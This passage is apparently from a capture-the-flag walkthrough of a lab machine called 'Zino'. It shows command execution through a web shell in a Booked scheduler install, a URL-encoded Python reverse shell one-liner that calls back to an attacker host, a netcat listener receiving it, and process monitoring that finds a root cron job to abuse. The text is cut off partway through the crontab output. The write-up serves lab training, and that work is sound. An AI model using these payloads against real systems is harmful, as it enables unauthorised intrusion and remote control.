 3.  Navigate to http://192.168.172.64:8003/booked/Web/custom-favicon.php?cmd= to run commands!

![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image6.png)

From here I used a `python` reverse shell one-liner to get a reverse shell

```
http://192.168.172.64:8003/booked/Web/custom-favicon.php?cmd=python%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.172%22,21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27
```

```
┌──(root㉿kali)-[/opt/linuxPrivEsc]
└─# nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.49.172] from (UNKNOWN) [192.168.172.64] 59182
$ 
```

Next, I used `python` to get a tty shell

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'                   
www-data@zino:/var/www/html/booked/Web$
```

# Root

I downloaded [pspy](https://github.com/DominicBreuker/pspy) onto the machine so I could look into the running processes of this machine. While looking I saw that root was executing a script about every three minutes
```
2022/10/03 17:54:01 CMD: UID=0    PID=19521  | /usr/sbin/CRON -f 
2022/10/03 17:54:01 CMD: UID=0    PID=19522  | /usr/sbin/CRON -f 
2022/10/03 17:54:01 CMD: UID=0    PID=19523  | /bin/sh -c    python /var/www/html/booked/cleanup.py 
2022/10/03 17:54:01 CMD: UID=0    PID=19524  | python /var/www/html/booked/cleanup.py
```

The `crontab` confirmed that every 3 minutes root would run `cleanup.py`
```
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
```
